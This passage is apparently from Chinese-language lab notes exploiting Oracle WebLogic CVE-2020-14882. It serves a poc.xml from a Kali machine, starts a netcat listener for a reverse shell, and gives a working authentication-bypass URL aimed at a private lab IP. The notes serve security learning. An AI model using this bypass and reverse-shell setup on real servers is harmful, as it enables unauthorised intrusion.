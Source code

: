 ```
将poc.xml放到kali下，并在当前目录启动web服务器，以便靶机能够访问pom.xml文件。
python -m http.server 8888
```

![image-20241122155939948](中间件漏洞/image-20241122155939948.png)	

```
能够正常访问这个xml文件，说明语法没问题。
```

![image-20241122160319685](中间件漏洞/image-20241122160319685.png)	

```
进行端口监听
nc -lvvp 5555
```

![image-20241122160400189](中间件漏洞/image-20241122160400189.png)	

```
先访问测试一下，判断是否有未授权访问。无需登录即可访问后台，这就利用了CVE-2020-14882的漏洞。
http://192.168.15.50:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=JmsSAFAgentSAFAgentTablePage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```

![image-20241122160655218](中间件漏洞/image-20241122160655218.png)	